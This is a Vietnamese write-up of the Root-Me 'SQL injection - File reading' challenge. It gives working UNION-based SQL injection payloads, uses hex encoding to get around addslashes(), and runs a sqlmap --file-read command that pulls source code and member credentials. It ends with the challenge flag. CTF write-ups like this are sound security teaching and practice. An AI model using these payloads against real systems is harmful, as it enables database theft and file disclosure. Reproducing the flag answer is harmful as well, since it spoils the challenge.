# Write up challenge SQL injection - File reading

Tác giả:
- **Nguyễn Mỹ Quỳnh**  

  
[Link Challenge](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-file-reading) 
 

Truy cập challenge ta thấy gồm 2 trang Authentication | Members. Tiến hành tìm điểm để thực hiện inject. Ta thấy đường link admin trong trang Members khi nhâp `'1` vào sau url thì hiện lỗi.

 

Thực hiện một basic attack `'1 or '1'='1' -- '` thì thấy đã có hàm bảo vệ addslashes() chèn thêm kí tự `\` vào trước `'`, vì vậy nếu cần dùng `'` ta cần mã hóa nó sang hex.

 

  Bắt đầu khai thác sử dụng lệnh union cơ bản `1 order by 1--` tăng dần lên thì thấy đến 5 xuất hiện lỗi 

 

Vậy có 4 cột trả về. Tiếp theo kiểm tra xem cột nào có thể khai thác. Gõ lệnh: `2 union select 1,2,3,4--`

 

Kết quả trả về cột 1,2,4 có thể khai thác. Ta sẽ follow vào cột 4 do email dạng xâu. Khai thác lấy tên bảng:
`2 union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema = database()
--`

 

Tiến hành lấy column_name từ bảng member, vì đã có hàm bảo vệ addslashes() như đã phân tích ở trên ta cần mã hóa ‘member’ sang hex `2 union select 1,2,3,group_concat(column_name) FROM information_schema.columns WHERE table_name = 0x6d656d626572--`

 

Đã thấy cột login và password tiến hành tiếp thục khai thác thông tin `2 union select 1,2,3,group_concat(member_login,member_password) FROM member--`



Đã thấy được pass tuy nhiên submit không thành công, decode base64 thường thấy cũng không thành công luôn. Có lẽ có một loại encrypt được define trước đó rồi và ta cần đọc file để biết được nó như tên challenge đã gợi ý.có lẽ ta cần lấy được source code để giải mã được password. Tiến hành dùng sqlmap đọc file 
`python3 sqlmap/sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch31/?action=members&id=1" --file-read=/challenge/web-serveur/ch31/index.php`



Sau khi tìm kiếm thì thấy được file chứa đoạn encrypt



Đọc code ta thấy mã hóa dùng cả 3 loại sha1, xor string và base64.
  Tiến hành dùng code gợi ý thực hiện với xor string và base64 trước 



Cuối cùng là decode dùng sha1

Submit thành công 



  

> **Flag:** superpassword
